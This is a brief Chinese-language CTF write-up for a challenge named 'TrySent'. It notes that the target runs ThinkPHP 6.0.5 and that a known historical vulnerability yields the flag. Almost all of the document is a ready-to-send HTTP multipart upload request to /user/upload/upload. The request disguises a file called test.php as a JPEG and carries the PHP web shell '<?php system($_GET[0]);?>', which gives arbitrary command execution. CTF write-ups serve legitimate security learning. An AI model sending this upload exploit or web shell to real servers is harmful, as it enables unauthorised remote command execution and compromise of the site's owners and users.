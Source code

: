 ## TrySent

真 · 签到题

可以发现网站是`ThinkPHPV6.0.5`​的，直接搜索历史漏洞 打`POC`​就能拿到`flag`​了

```bash
POST /user/upload/upload HTTP/1.1
Host: target
Cookie: PHPSESSID=7901b5229557c94bad46e16af23a3728
Content-Length: 758
Sec-Ch-Ua: " Not;A Brand";v="99", "Google Chrome";v="97", "Chromium";v="97"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrhx2kYAMYDqoTThz
Accept: */*
Origin: https://info.ziwugu.vip/
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://target.com/user/upload/index?name=icon&type=image&limit=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ja-CN;q=0.8,ja;q=0.7,en;q=0.6
Connection: close

------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="id"

WU_FILE_0
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="name"

test.jpg
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="type"

image/jpeg
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="lastModifiedDate"

Wed Jul 21 2021 18:15:25 GMT+0800 (中国标准时间)
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="size"

164264
------WebKitFormBoundaryrhx2kYAMYDqoTThz
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: image/jpeg

JFIF
<?php system($_GET[0]);?>

------WebKitFormBoundaryrhx2kYAMYDqoTThz--
```
